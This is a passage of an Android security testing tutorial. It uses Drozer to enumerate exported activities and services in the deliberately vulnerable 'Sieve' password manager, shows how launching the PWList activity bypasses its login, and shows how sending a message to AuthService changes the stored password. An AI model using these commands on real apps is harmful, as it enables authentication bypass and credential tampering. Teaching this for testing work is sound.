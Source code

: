 #### Activities

To list activities exported by an application, use the module
`app.activity.info`. Specify the target package with `-a` or omit the option to
target all apps on the device:

```bash
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```

Enumerating activities in the vulnerable password manager "Sieve" shows that the
activity `com.mwr.example.sieve.PWList` is exported with no required
permissions. It is possible to use the module `app.activity.start` to launch
this activity.

```bash
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

Since the activity is called directly in this example, the login form protecting
the password manager would be bypassed, and the data contained within the
password manager could be accessed.

#### Services

Services can be enumerated with the Drozer module `app.service.info`:

```bash
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

To communicate with a service, you must first use static analysis to identify
the required inputs.

Because this service is exported, you can use the module `app.service.send` to
communicate with the service and change the password stored in the target
application:

```bash
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
```
